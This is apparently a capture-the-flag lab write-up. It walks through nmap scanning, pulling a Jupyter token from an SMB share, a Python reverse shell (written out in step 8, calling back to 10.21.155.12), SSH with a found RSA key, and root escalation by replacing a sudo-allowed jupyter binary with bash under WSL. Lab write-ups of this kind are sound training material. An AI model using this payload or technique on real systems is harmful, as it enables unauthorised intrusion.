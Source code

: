 1. Run nmap to discover any open ports from the server.
![image](https://github.com/user-attachments/assets/90eb67ec-7a1f-4aa2-b2fa-715fff79aea9)
2. Open port 8888 and it shows jupyter page. I need the token to login to the website.
![image](https://github.com/user-attachments/assets/2e0a0ac5-ce76-4b20-96dc-ebf8d9dcc28a)
3. Realize that the server has SMB server (port 139 and 445 open), I check the smb server contents with smbclient. <br>
![image](https://github.com/user-attachments/assets/900dd442-1184-4cf3-af77-c6e440cf2285)
4. Checking the datasci-team folder inside the SMB server.
![image](https://github.com/user-attachments/assets/ecba06f2-0dda-477b-b01c-bc7d13c1cd15)
5. It shows that there is a file that consist of jupyter token that I needed to login into the jupyter server.
![image](https://github.com/user-attachments/assets/f474e7f7-7261-499a-957a-66c1016d9da7)
6. Login and inside the server, there are several files where I check the ipynb file inside.
![image](https://github.com/user-attachments/assets/f460c0cb-f42c-4034-b8c9-2dd711c84032)
7. From the file, I can execute a shell command.
![image](https://github.com/user-attachments/assets/97abfa4e-c18f-4e4c-b550-be171e558ef3)
8. I decided to do reverse shell from the ipynb file. <br>
**Command: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.155.12",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")**<br>
![image](https://github.com/user-attachments/assets/63517bc0-82de-42f6-a93b-170765b0bd29)
![image](https://github.com/user-attachments/assets/001839cd-5b8a-462a-8884-1352aad494f1)
9. Inside the server, there is a file that consist of the account RSA key.
![image](https://github.com/user-attachments/assets/f2c1aeeb-3137-440d-affd-534bd80bf42b)
10. I used it to login with the ssh protocol into the user.
![image](https://github.com/user-attachments/assets/23eabe8a-49a6-4a80-bc10-b1640c4a83aa)
11. Successfully get the Windows terminal, the user flag is stored in C:\Users\dev-datasci-lowpriv\Desktop\user.txt file.
![image](https://github.com/user-attachments/assets/5cd3ddb2-b2f8-4dcf-9e75-d1c583bfb1c1)
12. For the root privilege, back to the linux terminal (WSL), I check the sudo privilege with sudo -l.
![image](https://github.com/user-attachments/assets/af0600d8-8f4b-4500-8645-55a72f4dcb92)
13. It shows that the jupyter file inside /home/dev-datasci/.local/bin folder can be use to privilege into root. So I moved the bash file into the /home/dev-datasci/.local/bin folder. <br>
![image](https://github.com/user-attachments/assets/1d1c795f-8afa-47ed-83cb-da992676f583)
14. Next, I rewrite the jupyter file content with the bash file content.
![image](https://github.com/user-attachments/assets/d52af307-f49d-45e1-85f9-78f6463c77f0)
15. I run sudo /home/dev-datasci/.local/bin/jupyter file to escalate my privilege into root.
![image](https://github.com/user-attachments/assets/bde0c096-749e-41e6-914d-1bd9330723a9)
16. With root privilege, I can mount the Windows disk file into the /mnt folder inside the WSL.
![image](https://github.com/user-attachments/assets/b6ccdee5-f1ba-4b40-821d-b34f0194f573)
17. The root flag can be found in C:\Users\Administrator\Desktop\root.txt file.
![image](https://github.com/user-attachments/assets/c9d610b7-2c56-4512-8a2a-9fbb2074a212)























